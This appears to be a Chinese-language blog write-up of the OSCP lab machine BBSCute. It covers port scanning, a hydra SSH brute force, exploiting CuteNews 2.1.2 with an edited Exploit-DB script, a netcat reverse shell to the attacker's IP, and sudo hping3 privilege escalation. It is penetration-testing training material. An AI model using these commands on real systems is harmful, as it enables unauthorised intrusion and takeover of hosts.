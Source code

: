 # 原创
：  从WEB到内网&&信息收集&&SSH爆破&&SUDO提权 ------打靶经验分享

# 从WEB到内网&amp;&amp;信息收集&amp;&amp;SSH爆破&amp;&amp;SUDO提权 ------打靶经验分享

### OSCP靶机-------BBSCute

今天来打一个OSCP的靶机，难度中等，花了我半天的时间，包含了端口探测，服务探测，ssh爆破，nc反弹shell，sudo提权等等…靶场难度中等，需要收集两个flag，一个flag低权限shell就可以获取，第二个要提权后才可以获取。希望大家看完可以有所收获。

### 启动环境：

启动VPN：openvpn universal.ovpn<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/7baec160d37c4cd7a07cea1a7b513175.png"/><br/> 攻击机IP为：192.168.45.193<br/> 启动目标靶机：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/72ccaf7e9b3447208fd67a7d5b071836.png"/><br/> 目标靶机IP为： 192.168.164.128

### 信息收集

**1.端口**<br/> nmap扫描端口：<br/> `nmap --min-rate 10000 -p- 192.168.164.128`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9ec523e7c3174f8481c0a867cd76a081.png"/><br/> 探测到了：22、80、88、110、995端口<br/> 端口服务探测：<br/> `nmap -p 22,80,88,110,995 -sV 192.168.164.128`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/49a85089a51d43fc90e39ff1586214fc.png"/>

探测到各端口对应服务为：<br/> 22-open-openssh 7.9p1<br/> 80-open-http<br/> 88-open-http<br/> 110-open-pop3<br/> 995-open-ssl/pop3

**2.端口测试**

**2.1** 22-SSH端口<br/> 发现22端口是ssh服务，且版本为OpenSSH 7.9p1 Debian，可以搜一下有没有对应的利用脚本。<br/> `msfconsole`<br/> `searchsploit openssh 7.9`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4fa0116cf3544ae3a9dd6f666e05d583.png"/><br/> 莫有。<br/> 手工弱口令登一下试试。<br/> `ssh root@192.168.164.128 -p 22`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/0e7a770d70f343bda621c533feeb902e.png"/><br/> 试了还是没有弱口令登录成功，直接ssh爆破，字典选一本msf的，线程为6。<br/> `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 -vV 192.168.164.128 ssh -s 22`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f24f92bb2cd44c23b09a13d12f0649dd.png"/><br/> 等待ing，没有爆破出来。

**2.2** 80-http<br/> 80端口老规矩直接访问一下192.168.164.128:80<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8c0ecdd4995b4cdcb7487d50a703b8ec.png"/><br/> apache2 的页面，curl看一下源码<br/> `curl http://192.168.164.128:80`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c57e13e243e245618f36a761181a59b3.png"/><br/> 没有什么东西。dirsearch扫一下目录。<br/> `dirsearch -u http://192.168.164.128:80`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/218965187a43433f900d5f85777dff9b.png"/><br/> 还是有很多的，有登录界面？那就看一下Index.php(有这么多目录时，有限选择有用的测试，比如登录框）<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9e5a9de0dd19455cb25b1ff43651283d.png"/><br/> 试了下弱口令和SQL注入好像都不行，看一下cms<br/> `whatweb http://192.168.164.128/index.php`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/cdcbe11b338d427193473fdf0237f388.png"/><br/> cms是cutenews。看一下具体版本。<br/> `curl http://192.168.164.128/index.php`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4c211eb831f64db08110a5f5bfbb9454.png"/><br/> 有了具体版本，等下直接msf搜exp。

**2.3** 88-http<br/> 访问一下看看<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ac799a104f7a407c880bb27ae910761c.png"/><br/> 看了一下，啥都没有呀。直接用80的开打吧。

### 攻击阶段

刚才得到的cms：cutenews 2.1.2<br/> msf直接搜exp<br/> `msfconsole`<br/> `searchsploit cutenews 2.1.2`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/083013fcc0444445b8c7971b9a867905.png"/><br/> 看到有rce就直接用了。选4。把exp拷贝出来。<br/> `cp /usr/share/exploitdb/exploits/php/webapps/48800.py exp`

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4d85d5faa9e64b3687cc7fccc3514209.png"/><br/> 查看使用信息<br/> `cat /usr/share/exploitdb/exploits/php/webapps/48800.py`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1346ee175a39434db64a37a4c6de787c.png"/><br/> 就是python3运行后填上IP跟着走就对了。搞起来。<br/> `python3 48800.py`<br/> 输入url： http://192.168.164.128:80<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2c4d4a7ad13949b698b1e20f187878a1.png"/><br/> 怎么直接寄了。可能得修改exp，看看分析分析。<br/> `cat 48800.py`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3ffbe6b8d09d46228966f0fcfa3a64ce.png"/><br/> 看到这里就懂了，它这里的URL里面多了/CuteNews，我们的是直接加的index.php，所以要修改一下。看一下有几个地方存在这个问题：<br/> `grep CuteNews 48800.py`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3b564972ebba412e9ef0f62413423003.png"/><br/> 这vim修改真的过于逆天，不想vim修改的话有个小技巧，直接用sed 将所有的 “CuteNews/” 替换为空字符串<br/> `sed -i 's:CuteNews/::g' 48800.py`<br/> `grep CuteNews 48800.py`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f44960f56ddc4585a854827e1290a37a.png"/><br/> 没有了，现在重新开打。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a90fc98dd1d446ec81da6301a9e39f96.png"/><br/> 拿到shell了！

### 内网渗透

现在的shell是利用python的exp获取的，我们获取本地的shell会更方便一点，用nc反弹一下。<br/> 攻击机nc创建监听端口。<br/> `nc -lvvp 1234`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c932731473274986bffaf6b7750c82f7.png"/>

目标shel输入反弹shell<br/> `nc -e /bin/bash 192.168.45.193 1234`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/94cb76d159e9464781d55f4a6326206d.png"/>

反弹获取的shell交互不友好，利用python创建一个稳定的shell<br/> `python -c "import pty;pty.spawn('/bin/bash')";`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6a1095a54eaf4cee90461e234dafe2fb.png"/><br/> 获取flag1：<br/> `find / -name local.txt `<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2cde18fbd15149fc813226b67b231481.png"/><br/> `cat /var/www/local.txt`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/7dfe66d7a71d4a40bfad6848155cc133.png"/>

### 提权
1. -sudo提权<br/> `sudo -l`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b64d5cd28fa949c297fd9af8917600d8.png"/><br/> 可以看到hping3有root权限。<br/> 访问 https://gtfobins.github.io 寻找<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/31ec364201864172bd15d09932f4b768.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6e37aec2f66a46b88d341c97c4b1f124.png"/><br/> `hping3`<br/> 输入就直接是root了，666<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/dc9f514d16d2416383b5caa92547a700.png"/><br/> 查找flag2<br/> `cat /root/proof.txt`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/bea778b082d344d8942225dbeb4f4c01.png"/>